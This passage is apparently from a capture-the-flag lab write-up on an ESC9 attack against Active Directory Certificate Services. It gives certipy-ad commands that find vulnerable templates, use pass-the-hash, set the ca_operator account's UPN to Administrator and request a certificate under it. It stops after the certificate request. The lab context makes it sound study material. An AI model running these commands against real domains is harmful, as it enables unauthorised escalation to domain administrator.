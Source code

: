 -   **I re-run** `certipy-ad` **as the "CA_OPERATOR" user**:
    -   `certipy-ad find -vulnerable -u $user@$domain -hashes :$hash -dc-ip $box`
    -   It appears that we can follow the `ESC9` attack chain as this user.
    -   {{< figure src="/ox-hugo/2024-11-06-123503_.png" >}}
    -   There is only 1 certificate template: `CertifiedAuthentication` which will be the vulnerable one.
        -   {{< figure src="/ox-hugo/2024-11-06-133802_.png" >}}

-   **Looking at the certipy repo we see the following**:
    -   <https://github.com/ly4k/Certipy?tab=readme-ov-file#esc9--esc10>
    -   {{< figure src="/ox-hugo/2024-11-06-123731_.png" >}}
    -   [Blog Post Mentioned](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)


### ESC9 Privilege Escalation: {#esc9-privilege-escalation}

-   Reading the blog post we can see the following requirements are needed:
    -   +Requirements for the attack+:
        1.  `GenericWrite` over any account (A) to compromise any account (B):
            -   As we have `GenericAll` (which includes `GenericWrite`) over the `ca_operator` from the  `management_svc` account we can perform this action.
        2.  The NT Hash of Account (A)
            -   We have already extracted this the `ca_operator` hash in our previous shadow credentials attack


#### Changing the UPN of the ca_operator to be administrator: {#changing-the-upn-of-the-ca-operator-to-be-administrator}

-   **Change the** `userPrincipalName` **of** `ca_operator` **to be** `Administrator`.
    -   `certipy-ad account update -username management_svc@$domain -hashes :$svcHash -user ca_operator -upn Administrator`
        -   {{< figure src="/ox-hugo/2024-11-06-131853_.png" >}}
    -   +Note+:
        -   We're omitting the domain for `ca_operator` to make actions appear as if they're performed by `Administrator`.
        -   This reassigns the identity so that future actions will appear as if `ca_operator` is the `Administrator`.


#### Requesting our vulnerable cert using as the ca_operator: {#requesting-our-vulnerable-cert-using-as-the-ca-operator}

-   **We request the vulnerable certificate template** `CertifiedAuthentication` **We must request the certificate as ca_operator**:
    -   `certipy-ad req -username ca_operator.$domain -hashes :$caHash -ca certified-DC01-CA -template CertifiedAuthentication`
    -   {{< figure src="/ox-hugo/2024-11-06-132958_.png" >}}
    -   +Note+: The `userPrincipalName` in the certificate is `Administrator` since we changed the UPN and omitted `ca_operator`'s domain in step 1, resulting in a certificate without the original `ca_operator` SID.
    -   +Why+: Changing the UPN lets us request a certificate with the Administrator's UPN, granting elevated privileges without linking to the original `ca_operator` SID.

